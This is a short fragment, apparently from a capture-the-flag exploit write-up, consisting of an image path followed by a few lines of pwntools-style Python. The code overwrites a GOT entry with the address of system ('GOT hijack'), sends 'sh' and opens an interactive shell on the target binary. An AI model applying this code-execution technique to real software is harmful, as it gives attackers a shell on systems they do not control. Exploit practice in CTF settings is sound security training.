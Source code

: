 ```python
renew('big', p64(system)) # GOT hijack

r.recv()
r.sendline('sh\x00')

r.interactive()
```
